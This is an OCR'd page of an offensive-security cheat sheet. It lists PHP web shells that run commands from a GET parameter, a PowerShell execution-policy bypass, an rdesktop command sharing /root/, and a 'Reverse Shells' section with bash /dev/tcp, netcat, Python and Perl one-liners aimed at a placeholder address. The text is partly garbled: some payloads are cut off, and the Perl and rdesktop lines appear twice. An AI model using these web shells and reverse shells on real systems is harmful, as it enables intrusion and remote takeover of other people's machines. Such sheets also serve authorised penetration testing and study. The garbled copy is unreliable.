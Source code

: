  
#Perl  
`perl -e 'use Socket;$i="x.x.x.x ` 

  
Remote Desktop

Remote Desktop for windows with share and 85% screen  
  
`rdesktop -u username -p password -g 85% -r disk:share=/root/ x.x.x.x ` 
  
#PHP  
  
PHP command injection from GET Request  
`<?php echo system($\_GET\["cmd"\]);?>`  
  
Alternative  
`<?php echo shell\_exec($\_GET\["cmd"\]);?>`  
  
#Powershell  
Non-interactive execute powershell file  
`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1  `
  
Misc  
  
More binaries Path  
`export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ucb/  `
  
  
  

====================================  
  
Reverse Shells  
#Bash shell  
`bash -i >& /dev/tcp/x.x.x.x`  
  
  
#netcat without -e flag  
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x`  

  
#netcat Linux  
`nc -e /bin/sh x.x.x.x  
`  
  
#netcat Windows  
`nc -e cmd.exe x.x.x.x  
`  
  
#Python  
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x  
`  
  
#Perl  
`perl -e 'use Socket;$i="x.x.x.x  
`  
  
Remote Desktop  
Remote Desktop for windows with share and 85% screen  
`rdesktop -u username -p password -g 85% -r disk:share=/root/ x.x.x.x  
`  
  